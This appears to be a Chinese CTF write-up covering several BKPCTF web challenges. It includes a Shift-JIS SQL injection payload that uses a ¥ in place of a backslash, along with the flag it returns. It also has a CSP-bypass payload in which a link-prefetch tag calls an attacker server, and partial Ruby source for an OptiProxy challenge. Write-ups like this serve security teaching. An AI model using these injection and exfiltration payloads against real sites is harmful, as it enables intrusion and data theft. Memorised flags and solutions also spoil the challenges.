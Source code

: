 仔细读读源码大概就是type=answer是插入数据。type=get_answer是select数据，发现编码是一个传说中的日文编码sjis，本来以为是宽字节，结果搜到socket不能urlencode，所以传入的%bf%5c这样的就是当作6个字符，而不是uncode为符号，所以卡了很久，后来从一个小伙伴那里知道，在sjis中有个符号（js中`String.fromCharCode(0xa5)`）可以代替\，所以payload是这样的。

`SENT: {"type":"get_answer","question":"name¥","answer":"||1#"}`
这里的这个¥可以代替\，这样就可以转义后面的双引号，然后就会返回第一条数据。
`RESPONSE: {"type": "got_answer", "row": [1, "flag", "BKPCTF{TryYourBestOnTheOthersToo}"]}`

关于符号的问题是从这里看到的。
[http://www.tryphp.net/phpsecurity-sql/](http://www.tryphp.net/phpsecurity-sql/)

注意站是日文，而且是utf-8编码，加载成功后符号就会变成\.....

后来看别人的writeup，找到一篇文章.
[http://www.we-edit.de/stackoverflow/question/how-to-create-a-sql-injection-attack-with-shift-jis-and-cp932-28705324.html](http://www.we-edit.de/stackoverflow/question/how-to-create-a-sql-injection-attack-with-shift-jis-and-cp932-28705324.html)


## web2 bug bounty(xss bypass csp)

一个类似于bug提交平台，提交bug，输对验证码就会提交成功，然后就有人审核。
感觉有点儿像xss，但是开了CSP;

```
Content-Security-Policy
default-src 'none'; connect-src 'self'; frame-src 'self'; script-src 52.87.183.104:5000/dist/js/ 'sha256-KcMxZjpVxhUhzZiwuZ82bc0vAhYbUJsxyCXODP5ulto=' 'sha256-u++5+hMvnsKeoBWohJxxO3U9yHQHZU+2damUA6wnikQ=' 'sha256-zArnh0kTjtEOVDnamfOrI8qSpoiZbXttc6LzqNno8MM=' 'sha256-3PB3EBmojhuJg8mStgxkyy3OEJYJ73ruOF7nRScYnxk=' 'sha256-bk9UfcsBy+DUFULLU6uX/sJa0q7O7B8Aal2VVl43aDs='; font-src 52.87.183.104:5000/dist/fonts/ fonts.gstatic.com; style-src 52.87.183.104:5000/dist/css/ fonts.googleapis.com; img-src 'self';
```
看了看感觉没什么问题，然后就去找关于bypass csp的文章了，后来找到一个掉炸天的ppt，有时间专门写一个博客研究下。

这题知道是bypass csp，但是没什么想法，后来看到writeup才发现是一个知道的东西，果然黑盒和白盒测试不太一样...

payload：
```
<link rel="prefetch" href="http://your-server/">  
```
提交并输对验证码就会有人打开审核的。

## web3 OptiProxy (ruby web+wget 参数)
最开始看到源码简直懵了...这个ctf举办方好有感觉，不是python就是ruby，吊！

```
require 'nokogiri'
require 'open-uri'
require 'sinatra'
require 'shellwords'
require 'base64'
require 'fileutils'

set :bind, "0.0.0.0"
set :port, 5300
cdir = Dir.pwd                          //dir.pwd返回当前路劲
get '/' do
        str = "welcome to the automatic resource inliner, we inline all images"
        str << " go to /example.com to get an inlined version of example.com"
        str << " flag is in /flag"
        str << " source is in /source"
        str
end

get '/source' do
        IO.read "/home/optiproxy/optiproxy.rb"
end
```